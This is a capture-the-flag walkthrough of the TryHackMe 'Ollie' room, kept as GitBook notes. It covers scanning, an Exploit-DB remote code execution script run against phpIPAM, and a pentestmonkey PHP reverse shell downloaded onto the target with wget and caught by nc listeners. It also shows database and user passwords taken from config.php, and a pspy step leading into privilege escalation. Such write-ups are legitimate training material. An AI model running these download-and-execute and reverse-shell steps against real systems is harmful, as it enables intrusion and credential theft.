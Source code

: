 # Ollie

**Room Link:** [https://tryhackme.com/room/ollie](https://tryhackme.com/room/ollie)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/1337 - waste

**Kali**

```
nc -v $VICTIM 1337
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## TCP/80 - HTTP

**Browser**

```
Username: admin
Password: OllieUnixMontgomery!
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50963](https://www.exploit-db.com/raw/50963)



**Kali**

```
python3 exploit.py  -usr admin -pwd OllieUnixMontgomery! -cmd 'whoami' -url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



We can run commands from the browser as well.

<figure><img src="../../.gitbook/assets/image (633).png" alt=""><figcaption></figcaption></figure>

Got this php reverse shell, just changed the IP

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
subl php-reverse-shell.php 
python2 -m SimpleHTTPServer 81
```

**Kali**

```
nc -lvnp 1234
```

We have access to write to the immaolllieeboyyy directory so we put our shell there.

**Browser**

```
wget http://$KALI:81/php-reverse-shell.php -O immaolllieeboyyy/test.php
```

**Browser**

<pre><code><strong>http://VICTIM:/immaolllieeboyyy/test.php
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (635).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (636).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

**Victim**

```
cd /var/www/html
grep -ir "pass" config.php -A4 -B4
```

<figure><img src="../../.gitbook/assets/image (637).png" alt=""><figcaption></figcaption></figure>

We can login to mysql but didn't find anything

**Victim**

```
mysql -uphpipam_ollie -pIamDah1337estHackerDog!
```



**Victim**

```
su ollie
Password: OllieUnixMontgomery!
```

<figure><img src="../../.gitbook/assets/image (638).png" alt=""><figcaption></figcaption></figure>

## PSPY

**Kali**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```

**Victim**

```
cd /tmp/
wget http://10.10.231.159:81/pspy32 
chmod +x pspy32 
./pspy32
find / -name "feedme" 2>/dev/null 
```

<figure><img src="../../.gitbook/assets/image (640).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (642).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1338
```

<figure><img src="../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>













